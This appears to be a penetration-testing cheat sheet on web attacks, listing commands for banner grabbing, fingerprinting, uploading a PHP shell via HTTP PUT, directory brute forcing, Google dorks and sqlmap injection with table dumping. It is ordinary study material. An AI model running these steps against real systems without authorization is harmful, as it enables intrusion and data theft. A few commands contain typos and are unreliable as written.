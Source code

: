 # Web Attacks


### Banner grabbing
```
nc -v <target> <port>
HEAD / HTTP/1.0
```

### HTTPS services
```
openssl s_client -connect <target>:<port>
HEAD / HTTP/1.0
```


### Fingerpriting with Httprint
```
httprint -P0 -h <target> -s <signature file>
```


### HTTP Verbs
```
GET, POST, HEAD, PUT, DELETE, OPTIONS
```

### Using PUT to upload shell
```
# Get the content length of the shell
wc -m shell.php
<payload content length output>

# Then using nc to upload with the PUT method
nc <target> <port>
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: <length of payload>
```


### Directory and File Enumeration

Enumeration of files and directories can lead to many hidden resources that could contain:

- New and untested features
- Backup files
- Testing information
- Developer's notes

```
# Dirb is a great tool to use for directory/file brute forcing
dirb http://<target>

# Gobuster is another directory/file scanner written in Go
gobuster -u <target> -w <path to wordlist> -o <file to output to>
```

### Google Dorks
| Command               | Meaning                                                                                                     |
|-----------------------|-------------------------------------------------------------------------------------------------------------|
| site:                 | You can use this command to include only results on a given hostname.                                       |
| intitle:              | This command filters according to the title of a page.                                                      |
| inurl:                | Similar to intitle, but works on the URL of a resource.                                                     |
| filetype:             | This filters by using the file extension of a resource. For example .pdf or .xls.                           |
| AND, OR, &,           | You can use logical operators to combine your expressions. For example: site:example.com OR site:another.com |
| -                     | You can use this character to filter out a keyword or a command's result from the query.                    |

### SQL Injection with SQLMap

```
sqlmap -u <target> -p <paramater> [options]

# Example
sqlmap -u 'http://vicitim.site/search.php?id=2' -p id --technique=U

# Dump contents of a specific table in a database
sqlamp -u 'http://victim.site/search.php?=1' -D <database name> -T <table name> --dump
```




